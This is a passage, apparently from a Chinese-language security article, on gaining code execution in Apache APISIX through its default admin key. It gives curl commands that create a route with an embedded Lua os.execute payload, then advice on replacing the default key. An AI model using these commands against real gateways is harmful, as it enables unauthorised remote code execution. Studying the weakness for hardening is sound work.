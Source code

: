 # 默认的admin\_key配置
admin:
  admin\_key:
    - name: admin
      key: edd1c9f034335f136f87ad84b625c8f1  # 默认密钥，应当修改
      role: admin

根据 apisix 官方文档可以知道，在创建路由时用户可以定义一个 filter\_func 参数用于处理请求，filter\_func 的内容可以是任意的 lua 代码。

那么我们便可以使用默认的 admin\_key 创建恶意的 route 并访问以触发 lua 代码执行，达到 rce 的目的，下面是具体步骤：

**（1）创建可用的 services:**

curl -i -X PUT http://127.0.0.1:9080/apisix/admin/services/1 \\
-H "X-API-KEY: edd1c9f034335f136f87ad84b625c8f1" \\
-d '{
    "upstream": {
        "nodes": {
            "127.0.0.1:80": 1
        },
        "type": "roundrobin"
    }
}'

**（2）创建恶意的 route:**

curl -i -X PUT http://127.0.0.1:9080/apisix/admin/routes/1 \\
-H "X-API-KEY: edd1c9f034335f136f87ad84b625c8f1" \\
-d '{
    "uri": "/api/tforce\_test",
    "script": "local function hello() os.execute(\\"touch /tmp/success\\") end hello()",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "127.0.0.1:1980": 1
        }
    }
}'

最后访问 http://127.0.0.1:9080/api/tforce\_test 即可触发预定义的 lua 代码执行。

因此，在内网里攻击云原生 API 网关是比较容易打开一定局面的。

**APISIX安全配置**：

1.  **修改默认admin\_key**
    
    -   立即更改默认的admin\_key
    -   使用强密码生成器创建复杂密钥
    
    admin:
      admin\_key:
        - name: admin
          key: your\_strong\_random\_key\_here  # 替换默认密钥
          role: admin
    